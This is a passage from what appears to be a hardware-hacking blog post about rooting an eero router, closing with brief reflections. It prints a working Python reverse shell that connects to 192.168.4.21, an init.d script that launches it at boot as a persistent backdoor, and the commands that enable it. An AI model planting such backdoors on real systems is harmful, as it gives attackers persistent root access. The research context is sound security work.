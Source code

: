 I figured I needed to add a reverse shell to the startup process itself. To do so, I've created two files:

**/var/backdoor**
```bash
#!/bin/sh
while true; do
    python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("192.168.4.21",1337));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")' && kill -9;
    sleep 1;
done
```

and 

**/etc/init.d/s99backdoor**
```bash
#!/bin/sh
case "$1" in 
    start)
        /bin/sh /var/backdoor &
        [ $? =0 ] && echo "Started" || echo "Failed to start"
        ;;
    stop)
        /bin/sh /var/backdoor &
        [ $? =0 ] && echo "Stopped" || echo "Failed to stop"
        ;;
    reload)
        "$0" stop
        "$0" start
       ;;
   *)
    echo "How to: $0 {start | stop | reload}"
   exit 1
esac

exit $?
```

I enabled the backdoor script to run when the system boots using the `update-rc.d` tool:
```
$ chmod +x /var/backdoor
$ /usr/sbin/update-rc.d s99backdoor defaults
```

After restarting the system and starting a listener on my machine with address `192.168.4.21`, I got a reverse shell with root privileges with all the processes properly started.


![](/assets/img/eero/image8.pn---

# Final thoughts

During this project I've learned a lot about hardware components, soldering, and booting process. Getting a root shell was only a beginning of the project, after which I analysed the binaries working in the system and it's whole ecosystem.